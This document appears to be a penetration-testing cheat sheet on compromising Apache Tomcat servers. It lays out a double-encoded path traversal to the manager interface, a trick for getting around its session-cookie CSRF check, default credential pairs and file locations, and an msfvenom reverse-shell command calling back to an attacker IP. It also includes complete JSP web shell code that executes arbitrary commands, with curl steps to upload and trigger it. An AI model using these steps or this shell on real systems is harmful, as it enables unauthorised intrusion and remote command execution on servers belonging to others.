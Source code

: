 ## Generality

- Pay attention to the error message (404), as you can have the answer from apache server or tomcat. Apache decode the url once and tomcat another time. If you want to try a directory traversal for tomcat, you'll have to encode it twice.

- Admin endpoint : `/manager/html`. So with the first advice, try `http://example.com/jsp/%252e%252e/manager/html`

- In tomcat 7, the developers improved the CSRF protection in the manager. The protection is using the session (JSESSIONID). If no JSESSIONID is sent (or an invalid one), the webshell will not get uploaded and a 403 HTTP response is returned. Usually, this will be done automatically by the browser. However, Tomcat creates the JSESSIONID and send it to the browser with the following path:

`Set-Cookie: JSESSIONID=E5CE6AF4F6DDDF89569743B9F5490129; Path=/manager/;`

Since it's not the right path (because the path seen by the browser is /examples/jsp/%252e....), the browser will not send it in the future request.  Replace /manager/ by /.
  
To manage to upload the shell, a valid JSESSIONID from the initial response (when loading the manager page) needs to be add to the upload request (using a proxy). Alternatively, the Path in the \`Set-Cookie\` of HTTP response can be removed.  
  
Tomcat 7 also features an anti-bruteforce mechanism. So if it doesn't work directly wait for 10 minutes and avoid bruteforcing using automated tools

## Username and password

- Written in ```tomcat-users.xml```. This works for me : ```/usr/share/tomcat9/etc/tomcat-users.xml```, but if not, try to install it with the version needed, and then see where it's stored.
- Could also be in `/etc/tomcat6/tomcat-users.xml`
- Default username and pass : tomcat:tomcat / admin: / admin:manager / admin:password / admin:secret


## Upload reverse shell

- The best part of tomcat server is that the host-manager gives you facility to create, delete, and manage virtual hosts within Tomcat remotely via curl command through command line if you have creds.

- Create Reverse Shell : ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.197 LPORT=1234 -f war > shell.war```

or create an index.jsp :
```
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.\*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

$ mkdir webshell
$ cp index.jsp webshell

Now we can build the war file using `jar` (provide with java):

$ cd webshell
$ jar -cvf ../webshell.war \*
added manifest
adding: index.jsp(in = 579) (out= 351)(deflated 39%)


- Upload Reverse Shell : ```curl -u 'user':'pass' -T shell.war 'http://ip:port/manager/text/deploy?path=/my-shell'```

- List Deployed Shell : ```curl -u 'user':'pass' http://ip:port/manager/text/list```

- Start Netcat Listener

- Execute the deployed shell : ```curl -u 'user':'pass' http://ip:port/my-shell/```